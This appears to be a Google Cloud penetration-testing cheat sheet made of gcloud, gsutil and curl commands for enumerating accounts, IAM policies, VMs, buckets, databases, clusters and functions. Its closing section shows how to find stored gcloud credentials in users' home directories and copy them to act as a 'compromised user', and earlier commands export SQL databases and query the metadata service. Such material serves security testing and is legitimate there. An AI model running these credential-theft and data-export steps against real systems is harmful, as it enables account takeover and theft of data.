 # **Account Information**
#### User Identity Login
```gcloud auth login```
#### Service Account Login
```gcloud auth activate-service-account --key-file creds.json```
#### List Accounts Available to gcloud
```gcloud auth list```
#### List Organizations
```gcloud organizations list```
#### Enumerate IAM Policies set ORG-Wide
```gcloud organizations get-iam-policy <org ID>```
#### Enumerate IAM Policies set per project
```gcloud projects get-iam-policy <project ID>```
#### List Projects
```gcloud projects list```
#### Change or Set a different project
```gcloud config set project <project name>```
#### Gives a list of all APIs that are enabled in a project
```gcloud services list```
#### Get source code repos available to the user
```gcloud source repos list```
#### Clone repo to home dir
```gcloud source repos clone <repo_name>```

# **Virtual Machines**
#### List compute instances
```gcloud compute instances list```
#### Give Shell Access to instance
```gcloud beta compute ssh --zone "<region>" "<instance name>" --project "<project name>"```
#### Puts public ssh key onto metadata service for project
```gcloud compute ssh <local host>```
#### Get access scopes if on an instance
```curl http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes -H 'Metadata-Flavor:Google’```
#### Use Google keyring to decrypt encrypted data
```gcloud kms decrypt --ciphertext-file=encrypted-file.enc --plaintext-file=out.txt --key <crypto-key> --keyring <crypto-keyring> --location global```

# **Storage**
#### List Google Storage buckets
```gsutil ls```

#### List Google Storage buckets recursively
```gsutil ls -r gs://<bucket name>```

#### Copy item from bucket
```gsutil cp gs://bucketid/item ~/```

# **WebApps and SQL**
#### List WebApps
```gcloud app instances list```

#### List SQL instances
```gcloud sql instances list```
```gcloud spanner instances list```
```gcloud bigtable instances list```

#### List SQL databases
gcloud sql databases list --instance <instance ID>
gcloud spanner databases list --instance <instance name>

#### Export SQL databases and buckets
First, copy buckets to the local directory
```gsutil cp gs://bucket-name/folder/ .```

#### Create a new storage bucket, change perms, export SQL DB
```gsutil mb gs://<googlestoragename>```
```gsutil acl ch -u <service account> gs://<googlestoragename>```
```gcloud sql export sql <sql instance name> gs://<googlestoragename>/sqldump.gz --database=<database name>```

# **Networking**
#### List networks
```gcloud compute networks list```

#### List subnets
```gcloud compute networks subnets list```

#### List VPN tunnels
```gcloud compute vpn-tunnels list```

#### List Interconnects (VPN)
```gcloud compute interconnects list```

# **Containers**
#### List existing containers in cluster
```gcloud container clusters list```

#### To get GCP Kubernetes config file ~/.kube/config gets generated when you are authenticated with gcloud and run
```gcloud container clusters get-credentials <cluster name> --region <region>```
#### If successful and the user has the correct permission the Kubernetes command below can be used to get cluster-info
```kubectl cluster-info```

# **Serverless**
#### GCP functions log analysis – May get useful information from logs associated with GCP functions
```gcloud functions list```
```gcloud functions describe <function name>```
```gcloud functions logs read <function name> --limit <number of lines>```

#### GCP Cloud Run analysis – May get useful information from descriptions such as environment variables.
```gcloud run services list```
```gcloud run services describe <service-name>```
```gcloud run revisions describe --region=<region> <revision-name>```

#### Gcloud stores creds in ~/.config/gcloud/credentials.db Search home directories
```sudo find /home -name "credentials.db```

#### Copy gcloud dir to your own home directory to auth as the compromised user
```sudo cp -r /home/username/.config/gcloud ~/.config```
```sudo chown -R currentuser:currentuser ~/.config/gcloud```
```gcloud auth list```

#### Metadata Service URL
```curl "http://metadata.google.internal/computeMetadata/v1/?recursive=true&alt=text" -H "Metadata-Flavor: Google"```
